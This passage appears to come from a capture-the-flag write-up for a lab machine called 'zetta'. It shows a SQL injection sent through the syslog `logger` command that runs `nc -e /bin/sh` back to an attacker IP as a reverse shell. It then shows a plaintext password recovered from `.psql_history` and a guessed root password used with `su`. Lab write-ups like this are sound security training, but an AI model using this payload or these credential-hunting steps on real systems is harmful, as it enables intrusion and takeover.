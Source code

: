     roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM \$$/tmp/nc -e /bin/sh 10.10.14.5 443 & \$$; -- "
    

No errors, and the shell works!

## Shell as root

### Enumeration

Either way, I’m on as postgres. In the home directory, there’s a couple
history files that aren’t redirected to `/dev/null`:

    
    
    postgres@zetta:/var/lib/postgresql$ ls -la
    total 24
    drwxr-xr-x  4 postgres postgres 4096 Sep  1 11:16 .
    drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
    drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
    lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
    -rw-------  1 postgres postgres   32 Sep  1 11:16 .lesshst
    -rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
    drwx------  2 postgres postgres 4096 Sep  1 14:47 .ssh
    

The `.lesshst` file isn’t that interesting, but there’s a password in
`.psql_history`:

    
    
    postgres@zetta:/var/lib/postgresql$ cat .psql_history 
    CREATE DATABASE syslog;
    \c syslog
    CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
    \d syslog_lines
    ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
    

### su

This is where I recall the note earlier about a password scheme. Immediately
I’ll try `su`. On entering the password “sup3rs3cur3p4ass@root”, I’m root:

    
    
    postgres@zetta:/var/lib/postgresql$ su -
    Password: 
    root@zetta:~# 
    

And can grab `root.txt`:
